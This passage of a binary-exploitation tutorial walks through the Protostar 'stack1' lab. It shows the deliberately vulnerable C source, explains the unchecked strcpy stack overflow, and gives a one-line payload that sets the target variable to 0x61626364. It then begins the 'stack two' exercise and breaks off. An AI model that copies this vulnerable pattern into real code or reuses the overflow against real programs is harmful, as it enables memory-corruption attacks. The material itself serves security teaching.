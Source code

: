 ```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    if(argc == 1) {
        errx(1, "please specify an argument\n");
    }

    modified = 0;
    strcpy(buffer, argv[1]);

    if(modified == 0x61626364) {
        printf("you have correctly got the variable to the right value\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
}
```

If we decompose the above code, we can see that the program requires an arguments `argv [1]`. Concretely what does this mean? I'm almost sure that you have already seen many times that such thing when you execute a program from your terminal. In some case, you must pass the arguments in your command line such as `./prog arg1 arg2 arg3 etc ...`.

In our case, `argv [1]` simply corresponds to `arg1`. So we have found a stack overflow at the `strcpy()` because that function doesn't check the size of our `argv`. But the difficulty this time is to put **0x61626364** in our modified variable. To do so, we must put the 64 "A" padding to fill the buffer then we put **0x61626364** like this:

```bash
cd /opt/protostar/bin/
./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
you have correctly got the variable to the right value
```

![image-12](https://raw.githubusercontent.com/cybsploit/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-12.png "Image-12")

* * *

###### THIRD EXERCISE "STACK TWO"

Before moving on the explanation, please take a few minutes to analyze properly the below code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char * variable;

    variable = getenv("GREENIE");

    if(variable == NULL) {
        errx(1, "please set the GREENIE environment variable\n");
    }
```